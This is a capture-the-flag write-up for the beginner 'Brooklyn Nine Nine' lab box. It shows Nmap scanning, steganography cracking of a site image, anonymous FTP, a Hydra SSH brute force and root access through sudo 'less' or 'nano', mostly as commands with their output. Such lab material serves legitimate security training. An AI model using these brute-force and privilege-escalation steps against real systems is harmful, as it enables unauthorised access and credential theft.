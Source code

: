 
# Brooklyn Nine Nine CTF Writeup

This is a **Brooklyn Nine Nine** themed CTF, designed for beginners. Let’s jump into it and check out this machine.



## Nmap Scan

Scanning the machine with Nmap:

```bash
nmap -sC -sV -p21,22,80 -vv -oN nmap-detailed IP
````

### Results

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.1.58
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

We have three interesting services:

* **Apache web server (80)**
* **Anonymous FTP (21)**
* **SSH (22)**

---

## Enumeration

### Port 80 - Web Server

* The website displays a **B99 banner**.
* Looking at the source code, we find an image: `brooklyn99.jpg`.

```bash
wget http://IP/brooklyn99.jpg
```

* The page hints at **steganography**.

We use `stegcracker` to analyze the image:

```bash
stegcracker brooklyn99.jpg ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
```

**Result:**

```
Successfully cracked file with password: admin
Your file has been written to: brooklyn99.jpg.out
```

```bash
cat brooklyn99.jpg.out
```

Output:

```
Holts Password:
fluffydog12@ninenine
```

So we have **credentials for SSH**.

---

### Port 21 - Anonymous FTP

Login using:

```bash
ftp IP
# username: anonymous
# password: anonymous
```

We find a file: `note_to_jake.txt`.

Contents:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

---

### Port 22 - SSH

Using Holt’s credentials:

```bash
ssh holt@IP
# password: fluffydog12@ninenine
```

We get access to Holt’s account. Inside, we find:

* `user.txt` ✅ (user flag)
* `nano.save` (restricted to root)

Checking `/etc/passwd`, we discover two more potential users: **jake** & **amy**.

---

## Privilege Escalation

### Brute-forcing Jake’s Password

We try brute-forcing Jake’s SSH login:

```bash
hydra -l jake -P ~/Tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt ssh://IP
```

**Result:**

```
[22][ssh] host: IP   login: jake   password: 987654321
```

We can now login as Jake:

```bash
ssh jake@IP
# password: 987654321
```

### Sudo Privileges

Checking Jake’s privileges:

```bash
sudo -l
```

Jake has sudo access for `less`. Using this, we can read root’s flag:

```bash
sudo less /root/root.txt
```

Flag:

```
Here is the flag: xxxxxxxxxxxxxxxxxxxxxxxxxx
```

✅ **Root access achieved!**

---

## Alternate Method

* From Holt’s account, running `sudo -l` shows sudo access for `nano`.
* Escalation to root can also be done using **nano**.

---

## Conclusion

We successfully rooted the **Brooklyn Nine Nine CTF** box by:

1. Enumerating services with Nmap
2. Extracting Holt’s SSH credentials via steganography
3. Using Anonymous FTP to confirm Jake’s weak password
4. Brute-forcing Jake’s account with Hydra
5. Escalating privileges to root using `less` (or `nano`)

🎉 **Box pwned!**

```
```

